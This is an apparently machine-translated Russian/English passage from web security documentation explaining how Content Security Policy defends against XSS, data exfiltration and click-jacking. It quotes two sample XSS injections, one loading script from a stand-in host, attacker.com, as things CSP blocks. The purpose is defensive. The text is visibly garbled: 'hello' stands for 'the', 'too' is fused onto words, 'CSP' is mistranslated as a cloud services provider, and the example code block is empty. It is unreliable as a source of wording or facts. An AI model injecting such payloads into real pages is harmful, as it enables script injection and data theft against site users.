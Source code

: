 | <span data-ttu-id="42c56-153">**Действия**</span><span class="sxs-lookup"><span data-stu-id="42c56-153">**Steps**</span></span> | <p><span data-ttu-id="42c56-154">Политики безопасности содержимого (CSP) является глубокой обороны механизмом обеспечения безопасности, стандарт W3C, позволяющий веб-приложения владельцев toohave элемента управления внедренных на своем сайте содержимое hello.</span><span class="sxs-lookup"><span data-stu-id="42c56-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="42c56-155">CSP добавляется в качестве ответа HTTP на веб-сервере hello и обеспечивается на стороне клиента hello в браузерах.</span><span class="sxs-lookup"><span data-stu-id="42c56-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="42c56-156">Эта политика основана на списке разрешений, то есть веб-сайт может объявить набор доверенных доменов, из которых можно скачивать активное содержимое, например скрипт JavaScript.</span><span class="sxs-lookup"><span data-stu-id="42c56-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="42c56-157">Поставщик облачных СЛУЖБ предоставляет следующие преимущества безопасности hello:</span><span class="sxs-lookup"><span data-stu-id="42c56-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="42c56-158">**Защита от XSS:** Если страница является уязвимым tooXSS, атакующий может использовать два способа:</span><span class="sxs-lookup"><span data-stu-id="42c56-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="42c56-159">Внедрить `<script>malicious code</script>`.</span><span class="sxs-lookup"><span data-stu-id="42c56-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="42c56-160">Этой уязвимости не будет работать из-за его tooCSP базы ограничение-1</span><span class="sxs-lookup"><span data-stu-id="42c56-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="42c56-161">Внедрить `<script src=”http://attacker.com/maliciousCode.js”/>`.</span><span class="sxs-lookup"><span data-stu-id="42c56-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="42c56-162">Этой уязвимости не будет работать, поскольку hello злоумышленнику управлять домена не будет в белом списке поставщика облачных СЛУЖБ доменов</span><span class="sxs-lookup"><span data-stu-id="42c56-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="42c56-163">**Контроль над эксфильтрации данных:** любой вредоносного содержимого на веб-странице внешнего веб-сайта tooconnect tooan и кражи данных, если hello подключение будет прервано по CSP.</span><span class="sxs-lookup"><span data-stu-id="42c56-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="42c56-164">Это обусловлено hello целевой домен не будет в белом списке поставщика облачных СЛУЖБ</span><span class="sxs-lookup"><span data-stu-id="42c56-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="42c56-165">**Защиту от jacking щелкните:** jacking щелкните — это методика атаки с помощью которого злоумышленник может фрейма подлинность веб-сайта и принудительно tooclick пользователей в элементах пользовательского интерфейса.</span><span class="sxs-lookup"><span data-stu-id="42c56-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="42c56-166">Сейчас защита от кликджекинга осуществляется с помощью заголовка ответа X-Frame-Options.</span><span class="sxs-lookup"><span data-stu-id="42c56-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="42c56-167">Этот заголовок поддерживать не все браузеры и переход вперед CSP будет стандартным способом toodefend от jacking нажмите кнопку</span><span class="sxs-lookup"><span data-stu-id="42c56-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="42c56-168">**Отчетов в режиме реального времени атаки:** в случае атаки путем внедрения кода на веб-сайте поставщика служб Шифрования включен браузеры автоматически запустит конечной точки tooan уведомления настроен на веб-сервере hello.</span><span class="sxs-lookup"><span data-stu-id="42c56-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="42c56-169">В этом случае CSP используется как система оповещений в режиме реального времени.</span><span class="sxs-lookup"><span data-stu-id="42c56-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="42c56-170">Пример</span><span class="sxs-lookup"><span data-stu-id="42c56-170">Example</span></span>
<span data-ttu-id="42c56-171">Пример политики:</span><span class="sxs-lookup"><span data-stu-id="42c56-171">Example policy:</span></span> 
```C#
```